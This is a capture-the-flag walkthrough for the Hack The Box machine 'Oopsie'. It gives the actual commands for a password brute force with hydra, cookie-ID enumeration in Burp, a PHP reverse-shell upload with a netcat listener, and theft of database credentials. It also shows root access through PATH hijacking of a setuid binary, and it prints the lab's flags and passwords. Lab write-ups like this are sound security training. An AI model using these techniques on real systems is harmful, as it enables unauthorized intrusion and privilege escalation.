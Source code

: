 # Hack The Box - Machine - Oopsie

Scan the host with `nmap`, the output will be as follow

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-13 05:39 EDT
Nmap scan report for 10.10.10.28
Host is up (0.032s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome

```
Dirbuster command might be usefull to see any possible hidden file or folder. 

Use Burp to spider the website and find possible paths. Run burp and set up the proxy on the browser to `127.0.0.1:8080`. Refresh the page and forward the request with Burp.

Under `cdn-cgi/login` there is a login form. Login in with `admin` and the password of the previous machine `MEGACORP_4dm1n!!`. 

Hydra can be used to find the user name. Inside the passowrd folder there is a list of passwords commonly used by HTB.

```bash
hydra -L rockyou.txt -P <password-list> 10.10.10.28 http-post-form "/dn-cgi/login/index.php:username=^USER^&password=^PASS^:Log in"

```

With Burp you can see that there is a cookie with a userID. Lett's bruteforce it with burp in order to find th superadmin. Generate a list of ids 

```bash
for i in `seq 1 100`; do echo $i; done
```

Click CTRL + i to sent the request to `Intruder`. Go on Payloads tab and paste the list of ids to the payload options. Next, click on the `Options` tab, and ensure that `Follow Redirectionsis` set to "Always", and select the option to "Process cookies in redirections". Click on the `Target` tab, and then click `Start attack`. We sort responses by Length, and view the results.

A few of a responses have a different length, and we proceed to examine them. The super admin account is visible, and corresponding user value is identified. superadminID = 86575

# Foothold

Through Burp in the `Target` we have seen that there is un `upload` folder. That one is going to be useful later. Anotehr way to find folder is using `https://github.com/maurosoria/dirsearch.git`

Now we have to go on `Uploads` using burp and change the userID in the cookie field. It's possible that the developer forgot to implement user input validation, and so we should test if we can upload other files, such as a PHP webshell. Let's user `/usr/share/webshells/php/php-reverse-shell.php`. 

Change the IP address, upload the file and open `netcat` in order to start the reverse shell `nc -lvnp 1234`. Send a request with curl `curl http://10.10.10.28/uploads/<name of the reverse shell>.php` and here we are.

Change the shell with the following command: `SHELL=/bin/bash script -q /dev/null`. 

# Lateral Movement

The website records are probably retrieved from a database, so it's a good idea to check for database connection information. Indeed, db.php does contain credentials, and we can su robert to move laterally.

Type `ls /var/www/html/cdn-cgi/login` and cat `db.php` in order to find user access. User = robert, Pass = M3g4C0rpUs3r!. Browse the Desktop page in order to find the userflag. user.txt = f2c74ee8db7983851ab2a96a44eb7981


# Privilege Escalation

Access robert user with `su robert`. The `id` command reveals that robert is a member of the bugracker group. We can enumerate the filesystem to see if this group has any special access.

`find / -type f -group bugtracker 2>/dev/null`

There is a `bugtracker` binary, and the setuid but is set. Let's run it and see what it does. It seems to output a report based on the ID value provided. Let's use strings to see how it does this.

We see that it calls the cat binary using this relative path instead of the absolute path. By creating a malicious cat, and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root. Let's add the current working directory to PATH, create the malicious binary and make it executable.

```bash
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
```

Re-run the `bugtracker` binary in order to get root access. Browse the root folder and get the admin flag. root.txt = af13b0bee69f8a877c3faf667f7beacf